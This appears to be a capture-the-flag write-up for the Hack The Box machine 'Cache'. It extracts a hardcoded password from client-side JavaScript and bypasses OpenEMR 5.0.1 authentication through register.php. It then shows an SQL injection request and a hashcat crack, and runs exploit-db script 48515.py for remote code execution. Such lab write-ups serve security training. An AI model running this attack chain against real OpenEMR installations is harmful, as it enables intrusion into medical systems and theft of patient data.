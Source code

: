 # 10 - HTTP

# login.php
![](vx_images/1285690633361.png)

While examining the request with burp I noticed no request is being made to the server even with credentials but errors popped up on my screen anyway. That was obviously suspicious because if *login* was a properly made login page it would have sent the request to the server. At that point I wanted to see the source.

# functionality.js
```html
┌─[user@parrot]─[10.10.14.9]─[~/htb/cache]
└──╼ $ curl -s  http://cache.htb/login.html  |tail -4 | head -1
  <script src="jquery/functionality.js"></script>
```

It looks like a js script is deciding if we should get in, maybe it also contains some passwords to compare with user input.

# ash
```bash
┌─[user@parrot]─[10.10.14.9]─[~/htb/cache]
└──╼ $ curl -s  http://cache.htb/jquery/functionality.js | head -19
$(function(){
    
    var error_correctPassword = false;
    var error_username = false;
    
    function checkCorrectPassword(){
        var Password = $("#password").val();
        if(Password != 'H@v3_fun'){
            alert("Password didn't Match");
            error_correctPassword = true;
        }
    }
    function checkCorrectUsername(){
        var Username = $("#username").val();
        if(Username != "ash"){
            alert("Username didn't Match");
            error_username = true;
        }
    }
```
Just as we thought, it contains a plain text password.

* ash: H@v3_fun

# author.html
![](vx_images/1470612913003.png)

The author of the page says we should check out their other project "HMS (Hospital Management System)". We have to guess the location which should not be that hard.

# hms.htb
```bash
┌─[user@parrot]─[10.10.14.9]─[~/htb/cache]
└──╼ $ curl --header 'Host: hms.htb'  10.10.10.188 -v
*   Trying 10.10.10.188:80...
* Connected to 10.10.10.188 (10.10.10.188) port 80 (#0)
> GET / HTTP/1.1
> Host: hms.htb
> User-Agent: curl/7.74.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 302 Found
< Date: Wed, 08 Sep 2021 09:46:48 GMT
< Server: Apache/2.4.29 (Ubuntu)
< Location: interface/login/login.php?site=default
< Content-Length: 0
< Content-Type: text/html; charset=UTF-8
< 
* Connection #0 to host 10.10.10.188 left intact
```


The response redirects us to interface/. That looks like a valid virtual host.

# OpenEMR
![](vx_images/3492376153280.png)


OpenEMR is open source. In order to view the version we can visit admin.php

# Version 5.0.1
![](vx_images/1935817078093.png)

The version is 5.0.1 patch 3

# Searchsploit
![](vx_images/5864933797488.png)

All the exploits here are authenticated. Are there any other exploits that do not require authenticated? A quick google search on "openemr exploit" brings us to a vulnerability report by open-emr.

# Vulnerability Report
![](vx_images/217253474995.png)

The vulnerability uncovers sqli injection and remote code execution vulnerabilities. SQLi exploit too requires authentication but there is a way around that. If an attacker visits register.php, the server assigns a PHP session id but this session treated as authenticated on some endpoints. What this report is trying to tell us simply is that with the authentication bypass we can dump the database through sqli if we can dump also the password and get lucky with the cracking process we may be able to execute one of the exploits in the exploitdb to gain code execution on the box.


# Authentication bypass

![](vx_images/5189756929238.png)

The cookie that the server is trying to set for us is authenticated so we will use this session to perform sqli attack with sqlmap

![](vx_images/2994122077536.png)

add_edit_event_user.php will be our endpoint.


# Error based SQLi
![](vx_images/3884352644783.png)

This proves that the server is, indeed, vulnerable to sql injection.

```
GET /portal/add_edit_event_user.php?eid=1 HTTP/1.1
Host: hms.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: PHPSESSID=soduqmsqb2kkcberll4stcpju3; OpenEMR=lhbjcak0fg6hc7ppphkp1nlr9m
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
Pragma: no-cache
Cache-Control: no-cache

```

We need to trim the eid parameter because sqlmap does not like to see the injected parameters.



# SQLmap

![](vx_images/5290543627255.png)

openemr_admin is the username but the password needs to be cracked.

# Cracked

```bash
┌─[user@parrot]─[10.10.14.9]─[~/htb/cache]
└──╼ $ hashcat -m 3200 hash /usr/share/wordlists/rockyou.txt --user
$2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B.:xxxxxx
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: bcrypt $2*$, Blowfish (Unix)
Hash.Target......: $2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEc...F6P0B.
Time.Started.....: Wed Sep  8 21:17:02 2021 (3 secs)
Time.Estimated...: Wed Sep  8 21:17:05 2021 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:      295 H/s (17.38ms) @ Accel:4 Loops:32 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 848/14344385 (0.01%)
Rejected.........: 0/848 (0.00%)
Restore.Point....: 840/14344385 (0.01%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-32
Candidates.#1....: tazmania -> jesucristo

Started: Wed Sep  8 21:14:39 2021
Stopped: Wed Sep  8 21:17:07 2021
```

openemr_admin: xxxxxx


# Exploit
```bash
┌─[user@parrot]─[10.10.14.9]─[~/htb/cache]                                                     
└──╼ $ searchsploit -m php/webapps/48515.py                                                     
  Exploit: OpenEMR 5.0.1 - Remote Code Execution (1)                                                                                                                                                URL: https://www.exploit-db.com/exploits/48515                                                                                                                                          
     Path: /usr/share/exploitdb/exploits/php/webapps/48515.py
File Type: ASCII text, with CRLF line terminators                                                                                                                                             
                                               
Copied to: /home/user/htb/cache/48515.py     
┌─[user@parrot]─[10.10.14.9]─[~/htb/cache]
└──╼ $ python2 48515.py 
[+] Authentication with credentials provided please be patient
[+] Uploading a payload it will take a minute
[+] You should be getting a shell

```


# Shell
![](vx_images/5137433778721.png)